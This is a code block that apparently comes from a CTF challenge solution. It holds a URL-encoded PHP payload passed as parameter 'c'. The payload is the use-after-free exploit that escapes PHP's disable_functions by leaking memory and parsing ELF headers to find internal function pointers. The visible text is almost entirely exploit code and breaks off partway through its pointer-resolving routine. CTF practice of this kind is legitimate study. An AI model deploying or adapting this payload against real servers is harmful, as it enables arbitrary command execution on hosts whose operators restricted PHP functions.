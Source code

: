```php
c=%0Afunction%20ctfshow(%24cmd)%20%7B%0A%20%20%20%20global%20%24abc%2C%20%24helper%2C%20%24backtrace%3B%0A%0A%20%20%20%20class%20Vuln%20%7B%0A%20%20%20%20%20%20%20%20public%20%24a%3B%0A%20%20%20%20%20%20%20%20public%20function%20__destruct()%20%7B%20%0A%20%20%20%20%20%20%20%20%20%20%20%20global%20%24backtrace%3B%20%0A%20%20%20%20%20%20%20%20%20%20%20%20unset(%24this-%3Ea)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24backtrace%20%3D%20(new%20Exception)-%3EgetTrace()%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20if(!isset(%24backtrace%5B1%5D%5B'args'%5D))%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24backtrace%20%3D%20debug_backtrace()%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%0A%20%20%20%20class%20Helper%20%7B%0A%20%20%20%20%20%20%20%20public%20%24a%2C%20%24b%2C%20%24c%2C%20%24d%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20str2ptr(%26%24str%2C%20%24p%20%3D%200%2C%20%24s%20%3D%208)%20%7B%0A%20%20%20%20%20%20%20%20%24address%20%3D%200%3B%0A%20%20%20%20%20%20%20%20for(%24j%20%3D%20%24s-1%3B%20%24j%20%3E%3D%200%3B%20%24j--)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24address%20%3C%3C%3D%208%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24address%20%7C%3D%20ord(%24str%5B%24p%2B%24j%5D)%3B%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20return%20%24address%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20ptr2str(%24ptr%2C%20%24m%20%3D%208)%20%7B%0A%20%20%20%20%20%20%20%20%24out%20%3D%20%22%22%3B%0A%20%20%20%20%20%20%20%20for%20(%24i%3D0%3B%20%24i%20%3C%20%24m%3B%20%24i%2B%2B)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24out%20.%3D%20sprintf(%22%25c%22%2C(%24ptr%20%26%200xff))%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24ptr%20%3E%3E%3D%208%3B%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20return%20%24out%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20write(%26%24str%2C%20%24p%2C%20%24v%2C%20%24n%20%3D%208)%20%7B%0A%20%20%20%20%20%20%20%20%24i%20%3D%200%3B%0A%20%20%20%20%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%20%24n%3B%20%24i%2B%2B)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24str%5B%24p%20%2B%20%24i%5D%20%3D%20sprintf(%22%25c%22%2C(%24v%20%26%200xff))%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24v%20%3E%3E%3D%208%3B%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20leak(%24addr%2C%20%24p%20%3D%200%2C%20%24s%20%3D%208)%20%7B%0A%20%20%20%20%20%20%20%20global%20%24abc%2C%20%24helper%3B%0A%20%20%20%20%20%20%20%20write(%24abc%2C%200x68%2C%20%24addr%20%2B%20%24p%20-%200x10)%3B%0A%20%20%20%20%20%20%20%20%24leak%20%3D%20strlen(%24helper-%3Ea)%3B%0A%20%20%20%20%20%20%20%20if(%24s%20!%3D%208)%20%7B%20%24leak%20%25%3D%202%20%3C%3C%20(%24s%20*%208)%20-%201%3B%20%7D%0A%20%20%20%20%20%20%20%20return%20%24leak%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20parse_elf(%24base)%20%7B%0A%20%20%20%20%20%20%20%20%24e_type%20%3D%20leak(%24base%2C%200x10%2C%202)%3B%0A%0A%20%20%20%20%20%20%20%20%24e_phoff%20%3D%20leak(%24base%2C%200x20)%3B%0A%20%20%20%20%20%20%20%20%24e_phentsize%20%3D%20leak(%24base%2C%200x36%2C%202)%3B%0A%20%20%20%20%20%20%20%20%24e_phnum%20%3D%20leak(%24base%2C%200x38%2C%202)%3B%0A%0A%20%20%20%20%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%20%24e_phnum%3B%20%24i%2B%2B)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24header%20%3D%20%24base%20%2B%20%24e_phoff%20%2B%20%24i%20*%20%24e_phentsize%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24p_type%20%20%3D%20leak(%24header%2C%200%2C%204)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24p_flags%20%3D%20leak(%24header%2C%204%2C%204)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24p_vaddr%20%3D%20leak(%24header%2C%200x10)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24p_memsz%20%3D%20leak(%24header%2C%200x28)%3B%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24p_type%20%3D%3D%201%20%26%26%20%24p_flags%20%3D%3D%206)%20%7B%20%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24data_addr%20%3D%20%24e_type%20%3D%3D%202%20%3F%20%24p_vaddr%20%3A%20%24base%20%2B%20%24p_vaddr%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24data_size%20%3D%20%24p_memsz%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%20else%20if(%24p_type%20%3D%3D%201%20%26%26%20%24p_flags%20%3D%3D%205)%20%7B%20%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24text_size%20%3D%20%24p_memsz%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%7D%0A%0A%20%20%20%20%20%20%20%20if(!%24data_addr%20%7C%7C%20!%24text_size%20%7C%7C%20!%24data_size)%0A%20%20%20%20%20%20%20%20%20%20%20%20return%20false%3B%0A%0A%20%20%20%20%20%20%20%20return%20%5B%24data_addr%2C%20%24text_size%2C%20%24data_size%5D%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20get_basic_funcs(%24base%2C%20%24elf)%20%7B%0A%20%20%20%20%20%20%20%20list(%24data_addr%2C%20%24text_size%2C%20%24data_size)%20%3D%20%24elf%3B%0A%20%20%20%20%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%20%24data_size%20%2F%208%3B%20%24i%2B%2B)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24leak%20%3D%20leak(%24data_addr%2C%20%24i%20*%208)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24leak%20-%20%24base%20%3E%200%20%26%26%20%24leak%20-%20%24base%20%3C%20%24data_addr%20-%20%24base)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24deref%20%3D%20leak(%24leak)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20if(%24deref%20!%3D%200x746e6174736e6f63)%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20continue%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%20else%20continue%3B%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20%24leak%20%3D%20leak(%24data_addr%2C%20(%24i%20%2B%204)%20*%208)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24leak%20-%20%24base%20%3E%200%20%26%26%20%24leak%20-%20%24base%20%3C%20%24data_addr%20-%20%24base)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24deref%20%3D%20leak(%24leak)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%2
```